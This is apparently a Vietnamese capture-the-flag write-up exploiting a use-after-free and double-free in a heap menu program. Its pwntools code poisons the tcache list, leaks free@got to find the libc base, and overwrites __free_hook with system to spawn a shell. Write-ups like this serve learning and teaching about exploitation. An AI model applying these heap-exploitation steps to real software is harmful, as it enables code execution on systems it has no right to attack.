

**1. Tìm lỗi**

Sau khi pwninint thì thấy phiên bản libc là 2.2 -> tcache được bật và nó không gây ra lỗi khi Double Free

Dùng IDA dịch thì thấy hàm getFlag ở lựa chọn 1:


Tiếp tục đọc source thì thấy ở lựa chọn 6 và 7 đều free nhưng không loại bỏ con troe đến đoạn giải phóng -> Use after free


Chương tình có 2 biến chứa con trỏ đến đoạn malloc(0x10). Với lỗi Use after free thì có thể in giá trị một đoạn được giải phóng và lạm dụng danh sách liên kết tcache bằng cách chỉnh sửa con trỏ chuyển tiếp

**2. Ý tưởng**

Với lựa chọn 1 thì sẽ in thông tin admin. Với lỗi Use After Free và Double Free chúng ta cần cho user và admin trỏ đến cùng 1 đoạn, sau đó ghi đè lên ptr với biến user thông qua địa chỉ getFlag

**3. Khai thác**

Đầu tiên viết 7 hàm cho 7 lựa chọn trong chương trình như sau:

```
def newAdmin():
    r.sendlineafter(b'Choice: ', b'1')

def newUser(name):
    r.sendlineafter(b'Choice: ', b'2')
    r.sendafter(b'What is your name: ', name)

def printAdmin():
    r.sendlineafter(b'Choice: ', b'3')
    
def editStudent(name):
    r.sendlineafter(b'Choice: ', b'4')
    r.sendafter(b'What is your name: ', name)
    
def printStudent():
    r.sendlineafter(b'Choice: ', b'5')
    return r.recvline()

def deleteAdmin():
    r.sendlineafter(b'Choice: ', b'6')


def deleteUser():
    r.sendlineafter(b'Choice: ', b'7')
```

Tiếp theo sẽ tận dụng danh sách liên kết tcache để làm cho admin và user cùng trỏ đến cùng 1 doạn

```
newUser(b'0'*8)
deleteUser()
newAdmin()
```

Việc bây giờ là lấy địa chỉ hàm getFlag đưa vào biến User và thực hiện lựa chọn printAdmin vì bây giờ admin và user cùng trỏ đến một giá trị

```
getFlag = 0x40084a
editStudent(p64(0) + p64(getFlag))
print(printAdmin())
```

**4. Lấy cờ**


Ý tưởng này đã thất bại khi file flag.txt không phải là nơi chứa flag

**2.1 Ý tưởng thứ 2**

Tận dụng danh sách liên kết tcache bằng cách Double Free user sau đó Use after free để ghi đè con trỏ chuyển tiếp bằng free@got

```
newUser(b'AuDuc')
deleteUser()
deleteUser()
```

Có địa chỉ free@got như sau:


Sau đó chúng ta malloc 2 khối admin (để thiết lập lại tcache) và user(để rò rỉ địa chỉ)

```
newAdmin()
newUser(b'A')
free_addr = printStudent().split(b'name is ')[1][1:-1]
```


Ta thấy địa chỉ leak ra thiếu byte x50 cuối nên sẽ thêm vào

```
free_addr = u64(b'\x50' + free_addr + b'\x00\x00')
```

Sau khi leak được địa chỉ của free thì bằng những câu lệnh sau sẽ leak được địa chỉ libc base:

```
libc.address = free_addr - libc.sym['free']
print('Libc base: ', hex(libc.address))
```

Kết quả được



Tiếp theo sẽ chỉnh sửa free@got

```
editStudent(p64(libc.sym['free']))
```

Sau khi ghi đè con trỏ phía trước vào đoạn free@got và malloc2, tcache hiểu nhầm địa chỉ trước đó là free_leak là kích thước để sử dụng sau:


Tiếp theo sẽ free admin địa chỉ bộ nhớ tcache là chính xác: ```deleteAdmin()```


Nhưng ở đây địa chỉ bộ nhớ tcache chưa được chính xác nên tạo user và Double free

```
newUser(b'A'*8)
deleteUser()
deleteUser()
```


Và ở đây địa chỉ tcache đã chính xác

Tiếp theo ghi đè lên forward poiter địa chỉ __free_hook: ```editStudent(p64(libc.sym['__free_hook']))```

Tiếp theo là ghi vào tcache địa chỉ system:

```
newUser(b'A'*8)
newUser(p64(libc.sym['system']))
```
Lưu ý: Free sẽ kiểm tra xem __free_hook có trống không nếu không thì thực hiện chức năng bên trong

Tạo thêm chunk với giá trị /bin/sh: ```newUser(b'/bin/sh\x00')```

Việc còn lại là free để thực hiện shell

**4.1 Lấy flag lần 2**


